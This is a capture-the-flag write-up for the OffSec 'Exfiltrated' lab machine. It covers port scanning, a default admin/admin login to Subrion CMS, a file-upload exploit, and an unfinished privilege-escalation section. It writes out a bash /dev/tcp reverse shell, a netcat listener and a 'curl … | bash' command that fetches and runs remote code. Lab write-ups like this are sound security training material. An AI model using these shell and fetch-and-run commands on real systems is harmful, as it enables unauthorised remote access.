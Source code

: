 ```yaml
---
description: 11/22/2021
---
```


# Exfiltrated (Easy)

## Information Gathering

Scanned all TCP ports:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
|_http-favicon: Unknown favicon MD5: 09BDDB30D6AE11E854BFF82ED638542B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
All 1000 scanned ports on exfiltrated.offsec (192.168.90.163) are in ignored states.
```

Notes:

* 80/HTTP - <mark style="color:yellow;">added exfiltrated.offsec to /etc/hosts</mark>
  * CMS- Subrion -- Can we enumerate the version? -- Yes, <mark style="color:yellow;">v4.2.1</mark>
  * Apache 2.4.41
* Perform quick win attempt with searchsploit on both services above

## Enumeration

### Port 80 - HTTP (Apache) -- exfiltrated.offsec

Visual Inspection:

<figure><img src="../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

Wappalyzer:

<figure><img src="../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Searchsploit results of Subrion CMS:

<figure><img src="../../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

Enumerated Subrion Version:

* Found via selecting the "Go to admin dashboard" button on the main site

<figure><img src="../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

* Version has been enumerated <mark style="color:yellow;">Subrion v4.2.1</mark>
* We have 4 exploits that are targeted towards this version

### Subrion Default Credentials

A simple Google search for Subrion Default Creds gives us this first site with lucrative and guessable information

<figure><img src="../../../.gitbook/assets/image (5) (10).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">Attempted admin/admin login and it worked!</mark>

### Subrion Admin Panel

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### 49876.py (Arbitrary File Upload)

<figure><img src="../../../.gitbook/assets/image (4) (12).png" alt=""><figcaption></figcaption></figure>

* Viewed the python exploit in gedit to ensure I was using the proper syntax!
* I also had to copy/paste the explicit directory from the URL bar to the terminal for it to get the correct path (side note)
* However, this shell was really buggy so I ended up transferring a bash reverse shell to upgrade my shell

### Upgrading Web Shell -> Reverse Shell

Create bash reverse shell (rev\_shell):

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.49.90/1337 0>&1
```

Start Netcat listener:

```
nc -lnvp 1337
```

Start HTTP server on Kali:

```
python3 -m http.server 80
```

Transfer w/ curl:

```
curl 192.168.49.90/rev_shell | bash
```

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption><p>Terminator Command Window</p></figcaption></figure>

Upgrade Shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

* Time to priv esc!

## Privilege Escalation

### Local enumeration

<mark style="color:yellow;">Cronjobs</mark>

```
cat /etc/crontab
```

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">/opt/image-exif.sh</mark> looks interesting
* I tried to replace the file and delete it with no luck

{% embed url="https://grumpygeekwrites.wordpress.com/2021/09/07/offensive-security-pg-practice-exfiltrated-walk-through-tutorial-writeup/" %}

### PrivEsc vector

## Proofs
